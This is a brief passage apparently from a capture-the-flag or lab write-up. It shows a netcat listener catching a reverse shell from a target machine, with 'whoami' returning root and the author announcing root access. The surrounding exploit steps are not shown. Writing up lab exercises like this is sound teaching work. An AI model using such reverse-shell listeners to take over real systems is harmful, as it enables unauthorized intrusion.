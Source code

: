 ```bash
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.219] 33758
whoami
root
```

And we are root
